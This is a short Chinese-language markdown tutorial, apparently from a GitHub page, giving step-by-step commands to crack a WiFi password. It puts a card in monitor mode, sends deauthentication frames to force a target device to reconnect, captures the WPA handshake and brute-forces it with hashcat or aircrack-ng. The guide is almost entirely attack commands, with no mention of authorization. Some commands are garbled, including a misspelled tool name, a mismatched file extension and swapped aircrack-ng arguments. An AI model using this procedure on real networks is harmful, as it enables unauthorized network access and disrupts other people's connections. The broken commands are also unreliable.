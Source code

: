 # 通过握手包获取 WiFi 密码

1. 查看網絡設備, 獲取無線網卡名稱.

   ```bash
   iwconfig
   ```

2. 開啓無線網卡監聽模式.

   ```bash
   sudo airmon-ng start wlan0
   ```

   若设备被占用, 执行下列命令来结束占用设备的进程:  

   ```bash
   sudo airmon-ng check kill
   ```

   開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

   !!! warning
       監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

   ```bash
   sudo airodunp-ng wlan0mon
   ```

   當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

   ```bash
   sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
   ```

5. 斷開指定設備與指定 WiFi 的鏈接.

   ```bash
   sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
   ```

   目標設備從指定 WiFi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.

   此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.

   - 使用 Hashcat. (推薦)

      ```bash
      aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
      hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
      ```

   - 使用 aircrack-ng.

      ```bash
      aircrack-ng -w [.cap存檔文件] [字典文件]
      ```

8. 關閉無線網卡監聽模式.

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
